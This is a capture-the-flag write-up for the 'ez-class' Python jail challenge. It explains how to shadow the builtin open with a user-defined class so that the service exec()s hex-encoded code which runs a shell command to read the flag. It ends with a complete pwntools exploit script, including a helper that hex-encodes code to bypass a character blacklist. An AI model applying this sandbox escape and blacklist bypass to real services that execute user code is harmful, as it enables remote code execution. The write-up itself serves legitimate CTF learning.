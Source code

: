 # ez-class (misc, 375 points, 17 solves)

>This one is pretty ez
```shell
nc ezclass.bctf23-codelab.kctf.cloud 1337
```

## Overview
This challenge talks about a service that gives us the possibility to create and run classes.
We can specify:
- The class name
- A parent class
- Number of methods
- Method names
- Method params
- Method body

There is no blacklist except for this little one here: `().\n`
We can run a class and also its dependencies. After executing the class, the service returns us an instance of the specified class.

## The first idea
How are we going to execute code if the only thing that gets done is loading the class and instantiating the object?

The first idea that came to my mind is to do some ✨**magic**✨ using [magic functions](https://www.tutorialsteacher.com/python/magic-methods-in-python).
There are so many! But a useful one is [`__new__`](https://www.pythontutorial.net/python-oop/python-__new__/):

>When you create an instance of a class, Python first calls the `__new__()` method to create the object and then calls the `__init__()` method to initialize the object’s attributes.

Using `__new__`, we can return some values and we can execute code, but we can't call functions yet.

Let's take a look at how the classes are loaded:
```python
def exec_class(filename, dependancies, class_name):
    for dep in dependancies:
        with open('/tmp/' + dep, 'r') as f:
            exec(f.read())

    with open('/tmp/' + filename, 'r') as f:
        exec(f.read())

    print('Here is an instance of your class')
    print(locals()[class_name]())
```

If we're able to override `read()` we can get RCE.

## It's time to get out of the pyjail!
We need to:
- Override the `open` function with a class
- Override the `read` with our custom method which needs to return the code to print the flag
- Profit

The class will look like this:
```python
class open(object):
    def __init__(filename,*args):
        pass

    def __enter__(self):
        return self

    def __exit__(*args):
        pass

    def read(self):
        global open;open=self;return "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29"
```

We also need to add `__enter__` and `__exit__` because they're automatically called by the `with` operator.
Inside the `read` method, we override the `open` function with our instance of the class `self` and then, we return the code to print the flag.

Now we can create this class inside the service and then run it.
The service will also ask us to specify the dependencies of the class to be executed, we put the class created before.

So the service will behave like this:
Here, we override the open function with our class:

```python
for dep in dependancies:
	with open('/tmp/' + dep, 'r') as f:
		exec(f.read())
```

Now that we've overridden the open function, the code passed above to print the flag will be executed here:
```python
with open('/tmp/' + filename, 'r') as f:
    exec(f.read())
```

The service will then crash at this instruction, but we don't care😈:
```python
print(locals()[class_name]())
```

## The exploit

```python
from pwn import remote

def create_class(p, classname, parent, functions):
    print(f"Creating class {classname}")
    p.sendline(b"1")
    p.sendline(classname.encode())
    p.sendline(parent.encode())
    p.sendline(f"{len(functions)}".encode())
    for function in functions:
        p.sendline(function["name"].encode())
        p.sendline(function["params"].encode())
        p.sendline(function["body"].encode())
    print("Done!")


def run_class(p, torun, dep):
    print(f"Running class {torun}")
    p.sendline(b"2")
    p.sendline(torun.encode())
    p.sendline(dep.encode())
    print("Done!")

def bypass_char_blacklist(code):
    result = ""
    for char in code:
        result += "\\x" + hex(ord(char))[2:].zfill(2)
    return result

clean_code = """
import os
os.system('cat /tmp/flag.txt')
"""

to_exec = bypass_char_blacklist(clean_code)

r = remote("ezclass.bctf23-codelab.kctf.cloud", 1337)

fake_open_classname = "open"
fake_open_parent = "object"
fake_open_functions = [
    {"name": "__init__", "params": "filename,*args", "body": "pass"},
    {"name": "__enter__", "params": "self", "body": "return self"},
    {"name": "__exit__", "params": "*args", "body": "pass"},
    {"name": "read", "params": "self", "body": f"global open;open=self;return \"{to_exec}\""}
]

create_class(r, fake_open_classname, fake_open_parent, fake_open_functions)
run_class(r, fake_open_classname, fake_open_classname)

r.interactive()
```

### Output:
**EZ!**

![EZ!](https://i.imgur.com/2BC2X35.png)


This was my favorite challenge. Thanks to the organizers for this wonderful CTF!

